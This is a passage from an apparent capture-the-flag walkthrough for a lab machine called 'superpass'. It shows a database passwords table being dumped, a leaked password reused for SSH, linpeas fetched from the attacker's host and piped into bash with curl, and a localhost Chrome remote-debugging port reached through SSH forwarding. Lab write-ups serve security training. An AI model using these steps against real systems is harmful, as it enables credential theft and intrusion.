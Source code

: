 Select database ‘superpass’ using command: use superpass;

Step 4: Find the table names using the command: show tables;

![image](https://user-images.githubusercontent.com/93153300/234540096-31c2a1f3-d1fa-468b-96c6-c47fb5887b01.png)

Step 5: Dump the ‘passwords’ table using the command: select * from passwords;

![image](https://user-images.githubusercontent.com/93153300/234540128-bea0fe2f-e7cc-4d18-a5d6-5a5afc1f3170.png) 
  
This shows passwords for username corum which is one of the usernames found in /etc/passwd.  

Step 6: Try to ssh into the username corum using the newest password shown for corum which is ‘5db7caa1d13cc37c9fc2’: ssh corum@superpass.htb  → enter the password when prompted

We have shell as username corum.  We can get the flag in /home/corum/user.txt
_____________________________________________________
<b>Lateral Movement To User Edwards:</b><br>
Step 1: Download linpeas.sh from https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS 

Step 2: Open a python webserver on our local pc in the directory where we have linpeas stored.   

Step 3: On the target shell, run the command: curl http://enter-your-ip-address/linpeas | bash

Running linpeas shows:

![image](https://user-images.githubusercontent.com/93153300/234540157-fbb1ac30-d45a-4a38-9c70-a96e8ed5b9f3.png)

Seems that there is likely an attack we can use on the targets process of chrome that uses‘--remote-debugging-port=41829’.  Further down in the linpeas output we see that port 41829 is not open to the public, but it is open to localhost (127.0.0.1): 

![image](https://user-images.githubusercontent.com/93153300/234540188-8ab63124-649b-4d84-8a05-d0b10f1163b3.png) 
 
Step 4: Google search ‘exploit --remote-debugging-port’  finds plenty of explanations on this attack.  Follow the below instructions to perform the attack:

A: Perform ssh port forwarding to 127.0.0.1:41829 by typing: ~C →  enter → -L 41829:127.0.0.1:41829 → enter

B: Open a chrome browser and type in the url field: chrome://inspect/#devices

The chrome browser shows: 

![image](https://user-images.githubusercontent.com/93153300/234540218-7562bddd-80cb-4bdd-b2d0-690eb8ece5b1.png) 

C: Click on ‘Configure’, insert into the input field ‘localhost:41829’, and then click on ‘Done’. 

D: The chrome page will show at the bottom, under ‘Remote Target’ something that didn’t appear before:

![image](https://user-images.githubusercontent.com/93153300/234540257-dccc907e-3cc4-45b2-be38-ad7a912cfaca.png) 
 
Clicking on ‘inspect’ shows:

![image](https://user-images.githubusercontent.com/93153300/234540303-d43c32ff-ed6e-4bb0-b8c0-b46cee3b6988.png) 
